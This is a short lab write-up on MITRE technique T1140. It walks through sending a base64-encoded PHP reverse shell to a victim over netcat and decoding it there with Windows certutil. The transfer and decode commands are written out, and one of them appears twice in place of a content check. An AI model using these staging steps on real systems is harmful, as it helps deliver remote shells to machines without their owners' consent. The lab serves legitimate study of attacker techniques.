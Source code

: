 # T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from the attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the file is received on the victim, let's check its contents:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../.gitbook/assets/certutil-decoded.png)

